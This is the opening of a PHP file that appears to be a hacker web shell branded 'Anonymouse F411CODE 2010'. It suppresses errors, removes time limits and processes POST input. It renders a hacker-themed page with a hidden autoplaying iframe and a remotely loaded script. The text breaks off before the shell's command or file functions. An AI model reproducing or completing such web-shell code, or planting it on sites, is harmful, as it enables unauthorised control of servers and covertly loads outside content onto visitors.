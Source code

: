 <?php

set_time_limit(0);
error_reporting(0);

if(get_magic_quotes_gpc()){
foreach($_POST as $key=>$value){
$_POST[$key] = stripslashes($value); 
}
}
echo '<!DOCTYPE HTML>
<HTML>
<style type="text/css">body { background-image: url(https://pa1.narvii.com/6958/b32afa2ea9c603fc4f73fc443ec0504d42d63d82r1-300-300_hq.gif); background-color:transparent; }</style>
<HEAD>
<link href="" rel="stylesheet" type="text/css">
<title>Anonymouse F411CODE 2010</title><link rel="SHORTCUT ICON"  href="https://c.top4top.io/p_1825javyv0.jpg">
<style>
body{ 
font-family: "Courier", cursive;
color: #fff;
background-color: #000;
text-shadow:0px 0px 1px #757575;
}
#content tr:hover{
background-color: #000;
text-shadow:0px 0px 10px #fff;
}
#content .first{
background-color: red;
}
#content .first:hover{
background-color: red;
text-shadow:0px 0px 1px #757575;
}
H1{
font-family: "Courier", cursive;
color: #fff;
}
a{
color: #fff;
text-decoration: none;
}
a:hover{
color: #fff;
text-shadow:0px 0px 5px #ffffff;
}
input,select,textarea{
border: 1px #fff solid;
-moz-border-radius: 5px;
-webkit-border-radius:5px;
border-radius:5px;
}
</style>
</HEAD>
<BODY>
<iframe width="0" height="0" src="https://j.top4top.net/m_1255r25qh0.mp3" frameborder="0" allowfullscreen></iframe>
<script src="https://cdn.rawgit.com/FicriPebriyana/efek/0a935a6c/efek%20salju.js" type="text/javascript"></script>
<H1><center>Anonymouse F411CODE 2010</center></H1>
<DIV align=center><IMG src="https://c.top4top.io/p_1825javyv0.jpg" width=250 height=250><br>
<table width="700" border="0" cellpadding="3" cellspacing="1" align="center">